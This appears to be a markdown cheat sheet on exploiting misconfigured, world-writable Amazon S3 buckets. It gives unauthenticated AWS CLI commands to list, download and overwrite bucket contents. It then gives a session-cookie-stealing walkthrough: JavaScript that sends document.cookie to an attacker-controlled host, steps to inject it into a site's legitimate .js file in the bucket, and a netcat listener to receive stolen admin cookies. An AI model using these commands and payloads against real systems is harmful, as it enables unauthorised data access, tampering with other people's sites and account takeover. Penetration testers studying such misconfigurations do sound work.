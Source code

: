 # World-Writable S3 Buckets Exploitation

### Steps and commands

 - mkdir TARGET_BUCKET_NAME; cd TARGET_BUCKET_NAME/ (Create a directory to possibly download all assets within the bucket locally)

 - aws s3 ls s3://BUCKET_NAME-BUCKET_ID --recursive --no-sign-request (List all content of the bucket recursively WITHOUT authentication)

 -  aws s3 cp s3://BUCKET_NAME-BUCKET_ID . --recursive --no-sign-request (Download all bucket contents at your current directory)

 -  aws s3api get-bucket-acl --bucket BUCKET_NAME-BUCKET_ID --no-sign-request (Check for misconfigured bucket ACLs. This is optional)

 -  aws s3api get-object-acl --bucket BUCKET_NAME-BUCKET_ID --key EXAMPLE/FILE.TXT --no-sign-request (Likewise for file ACLs)

 -  cd EXAMPLE/ (Go to a directory of our downloaded bucket content)

 - echo test > test (Create a test file to test for World-Writable Access in the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test --no-sign-request (Upload our test file to the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test - --no-sign-request (Verify that our file has been uploaded successfully)

## Alternate method to check for world read/writeable S3 Buckets: AWS macie2

 - aws macie2 describe-buckets --region REGION  --criteria '{"publicAccess.effectivePermission":{"eq":["PUBLIC"]}}' --query 'buckets[*].{BucketName: bucketName, AllowsPublicReadAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicReadAccess, AllowsPublicWriteAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicWriteAccess}' --output table

# Use case example: Steal admin cookie

### If we have verified that we can actually write arbitrary files on a bucket, and the webapp has pages that can only be accessed by privileged users, we can steal their session cookies by overwriting a legitimate .js file with our own malicious code.

## Code:

#### var xhr=new XMLHttpRequest();

#### xhr.open("GET", "http://localhost:8000/?"+document.cookie, true); 

#### xhr.send();

### Backup the .js file first

 - cp legit.js legit.js.bak

### Place this payload before the legitimate contents of the file. Don't forget to change localhost with your corresponding IP address

### Then upload the file to the bucket

 - aws s3 cp legit.js s3://BUCKET_NAME-BUCKET_ID/example/legit.js --no-sign-request

 - nc -lvnp 8000 (Setup listener to fetch the cookie if the webapp uses automation, or an admin somehow triggers our payload)
